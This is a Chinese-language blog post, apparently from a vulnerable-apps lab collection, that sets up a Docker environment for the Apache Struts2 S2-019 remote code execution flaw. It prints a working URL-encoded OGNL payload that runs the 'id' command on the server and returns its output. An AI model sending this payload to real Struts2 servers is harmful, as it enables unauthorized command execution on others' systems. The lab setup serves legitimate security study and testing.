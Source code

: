 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-019)"
date: 2017-06-13 18:43:59 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-019)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-019)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-019)环境'
---
```


### 漏洞信息

 * [S2-019 公告](http://struts.apache.org/docs/s2-019.html)
 
详细参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-019
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-019
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
?debug=command&expression=%23a%3D%28new%20java.lang.ProcessBuilder%28%27id%27%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23out%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23out.getWriter%28%29.println%28%27dbapp%3A%27%2bnew%20java.lang.String%28%23e%29%29%2C%23out.getWriter%28%29.flush%28%29%2C%23out.getWriter%28%29.close%28%29%0A
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-019/s2-019-1.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献
